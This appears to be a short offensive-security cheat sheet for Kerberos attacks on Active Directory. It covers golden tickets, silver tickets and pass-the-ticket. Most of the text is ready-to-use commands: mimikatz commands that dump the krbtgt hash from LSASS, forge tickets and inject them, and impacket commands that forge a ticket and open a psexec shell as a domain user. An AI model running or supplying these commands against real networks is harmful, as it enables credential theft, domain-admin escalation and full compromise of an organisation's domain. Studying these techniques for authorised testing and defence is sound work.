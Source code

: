 # golden siver passing ticket

* **Silver ticket** is more stealth and discreet; only for target service
* **Golden ticket** works for any kerberos service

**Description of terms:**

* **TGT:** ticket to a service account issued by the KDC and can only access that service.
* **KRBTGT:** service account in KDC; issues all TGTs. If possible to impersonate this account and create a golden
  ticket, we have ability to create a service ticket for any service

## Golden Ticket

### using mimikatz

```bash
# dump hash and SID
lsadump::lsa /inject /name: krbtgt

# create ticket golden
kerberos::golden /user:Administrator /domain:DOMAIN /sid:SID /krbtgt:KRBTGT_NTLM_HASH /id:500

# open a new elevated command prompt with the given ticket in mimikatz.
misc::cmd
```

### using impacket

```bash
impacket-ticketer -nthash KRBTGT_NTLM_HASH -domain-sid DOMAIN_SID -domain FQDN_DOMAIN USERNAME
export KRB5CCNAME=FILE.cache
impacket-psexec DOMAIN/USER@DOMAIN -k -no-pass
# can try impacket-secretsdump
```

## Silver Ticket

### mimikatz

```bash
# dump
lsadump::lsa /inject /name: [<domain-admin-account> | <service-account>]

# create ticket silver
kerberos::golden /user:<USER> /domain:DOMAINM /sid:SID /krbtgt:SERVICE_NTLM_hash /id:1103
misc::cmd
```

## Pass-the-ticket

* Can be used for dumping user credentials inside an AD network
* Can dump the TGT from the LSASS memory (which stores Kerberos ticket as the gatekeeper and accept or reject the
  credentials provided)
* Gives a .kirbi ticket - can be used to get domain admin
* Allows to escalate to domain admin if you dump a domain admin's ticket and then impersonate that ticket

### using mimikatz

```bash
# exports all .kirbi to current directory
sekurlsa::tickets /export

# find some admin .kirbi from krbtgt
kerberos::ptt TICKET

# to check if ticket is working
> klist
```
